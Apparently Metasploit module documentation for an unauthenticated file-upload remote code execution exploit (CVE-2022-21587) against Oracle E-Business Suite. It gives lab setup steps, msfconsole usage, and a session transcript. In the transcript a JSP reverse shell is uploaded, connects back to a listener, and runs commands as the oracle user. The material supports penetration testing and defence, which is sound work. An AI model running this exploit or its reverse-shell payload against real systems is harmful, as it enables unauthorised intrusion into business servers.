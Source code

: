 ## Vulnerable Application

This module exploits CVE-2022-21587, an unauthenticated arbitrary file upload vulnerability in Oracle
Web Applications Desktop Integrator as shipped with Oracle E-Business Suite (EBS) versions
12.2.3 through to 12.2.11.

The exploit uploads a Java Server Page (JSP) payload in order to achieve code execution
as the `oracle` user, and will use the `java/jsp_shell_reverse_tcp` payload by default.

The Oracle EBS product is shipped as either a standalone appliance based on Linux, or an self
hosted application supporting multiple platforms, including Linux, Windows, Solaris, AIX and
HP-UP. This exploit module has been tested against the Linux based appliance, specifically
version 12.2.10.

A full technical analysis of the vulnerability can be found on
[AttackerKB](https://attackerkb.com/topics/Bkij5kK1qK/cve-2022-21587/rapid7-analysis).

## Target Setup

To setup the Oracle EBS appliance, you must download the appliance files, rebuild the appliance
image and install the appliance as a [VirtualBox](https://www.virtualbox.org/) virtual machine.

* Register an account at [Oracle E-Delivery](https://edelivery.oracle.com/osdc/faces/SoftwareDelivery)
and login to search for the required software. You will need to search for `REL: Oracle VM Virtual Appliance for
Oracle E-Business Suite` to find the appropriate download links. The version number should be listed at the end of the link.

* You will be presented with multiple ZIP files to download. These files will be extracted and
concatenated to create a single 70 GB Oracle Virtual Appliance (OVA) file. Instructions on how
to do this, as well as additional configuration instructions, can be found in the extracted
documentation located in `\V1005962-01\Documents\Oracle VM Virtual Appliance for Oracle E-Business
Suite Deployment Guide_Release 12.2.10.html`. Additionally a step by step guide for installation
and setup is available [here](https://blog.rishoradev.com/2021/04/12/oracle-ebs-r12-on-virtualbox/).

* Import the OVA file into VirtualBox. Once this is completed you may power on the virtual appliance.
You will require around 320 GB of hard disk space to complete this operation. Note, issues were encountered
if the IP address for the appliance changed after the initial install. It is recommended to use either a
static IP address or ensure your DHCP server provides the same address to the appliance.

* Follow the instructions displayed in the console to set the default passwords for the `root`
and `oracle` and `applmgr` user accounts.

* Once installation and setup has been completed, you can SSH into the appliance as the user
`oracle` and start the database and application services with the following commands:

```
cd /u01/install/APPS/scripts/
./startdb.sh
./startapps.sh
```

* You can now access the WebLogic server over HTTP port `8000`.

## Options

## Verification Steps

From msfconsole perform the following steps:

1. `use exploit/linux/http/oracle_ebs_rce_cve_2022_21587`
2. Set `RHOST` to the target address and `RPORT` to the target port. The default `RPORT` is 8000 for
HTTP and 4443 for HTTPS. If using HTTPS set `SSL` to `true`.
3. Set `LHOST` and `LPORT` values for the default `java/jsp_shell_reverse_tcp` payload.
4. `check` to ensure the target is vulnerable.
5. `exploit`
6. Verify a command session has been opened and you can execute commands as the `oracle` user.

## Scenarios

### Oracle E-Business Suite 12.2.10 - Oracle Virtual Appliance (OVA)

```
msf6 > use exploit/linux/http/oracle_ebs_rce_cve_2022_21587 
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > show options

Module options (exploit/linux/http/oracle_ebs_rce_cve_2022_21587):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metaspl
                                       oit/basics/using-metasploit.html
   RPORT    8000             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Oracle EBS on Linux



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > set RHOST 192.168.86.37
RHOST => 192.168.86.37
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > set LHOST 192.168.86.5
LHOST => 192.168.86.5
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > check
[*] 192.168.86.37:8000 - The target appears to be vulnerable. Oracle EBS version 12.2.10 detected.
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > exploit

[*] Started reverse TCP handler on 192.168.86.5:4444 
[*] Targeting the endpoint: /OA_HTML/BneUploaderService
[*] Triggering the payload...
[+] Deleted /u01/install/APPS/fs1/FMW_Home/Oracle_EBS-app1/applications/forms/forms/ygrne.jsp
[*] Command shell session 1 opened (192.168.86.5:4444 -> 192.168.86.37:59288) at 2023-02-10 12:20:43 +0000

id
uid=54321(oracle) gid=54321(oinstall) groups=54321(oinstall),54322(dba) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uname -a
Linux apps 3.10.0-1160.11.1.el7.x86_64 #1 SMP Tue Dec 15 11:58:45 PST 2020 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.86.37 - Command shell session 1 closed.
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) >
```
